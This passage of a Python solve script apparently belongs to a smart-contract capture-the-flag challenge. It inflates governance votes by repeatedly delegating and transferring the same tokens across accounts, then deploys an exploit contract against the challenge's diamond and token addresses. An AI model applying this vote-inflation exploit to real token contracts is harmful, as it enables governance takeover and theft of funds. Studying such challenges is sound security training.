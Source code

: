 ```Python
        for i in range(1, 12)
    ]
    for i in accounts:
        transfer(i[0].address, 10000000000000000)
        print(f"Transferred 10^16 tokens to {i[0].address}")

    # 1. Claim initial tokens
    print("\nClaiming initial tokens...")
    send_transaction(
        challenge.functions.claim(), accounts[0][0], privKey=accounts[0][1]
    )
    balance = hexens_coin.functions.balanceOf(accounts[0][0].address).call()
    print(f"Balance of account 0: {balance}")

    # 2. attack
    print("\nAttacking...")
    if (
        int(hexens_coin.functions.getCurrentVotes(account.address).call())
        < 100000000000000000000000
    ):
        for i in range(10):
            send_transaction(
                hexens_coin.functions.delegate(account.address),
                accounts[i][0],
                privKey=accounts[i][1],
            )
            send_transaction(
                hexens_coin.functions.transfer(
                    accounts[i + 1][0].address, 10000000000000000000000
                ),
                accounts[i][0],
                privKey=accounts[i][1],
            )
            currentVote = hexens_coin.functions.getCurrentVotes(account.address).call()
            print(f"Current votes of account: {currentVote}")

    def deploy_contract(w3, x_abi, x_bin):
        construct_txn = (
            w3.eth.contract(abi=x_abi, bytecode=x_bin)
            .constructor(diamond_addr, hexens_coin_addr)
            .build_transaction(
                {
                    "from": account.address,
                    "nonce": w3.eth.get_transaction_count(account.address),
                }
            )
        )
        tx_create = w3.eth.account.sign_transaction(construct_txn, PRIVATE_KEY)
        tx_hash = w3.eth.send_raw_transaction(tx_create.rawTransaction)
        tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
        print(f"Contract deployed at address: { tx_receipt.contractAddress }")

        return tx_receipt.contractAddress

    x_meta = solcx.compile_files(
        ["x.sol"], output_values=["abi", "bin"], solc_version=_solc_version
    )
    x_abi = x_meta["x.sol:X"]["abi"]
    x_bin = x_meta["x.sol:X"]["bin"]
    x_address = deploy_contract(w3, x_abi, x_bin)
    # x_address = "0xaDFF41E489b5517A26bb2AbF3bE6c960740D4E09"

    # x_instance = w3.eth.contract(address=x_address, abi=x_abi)
```
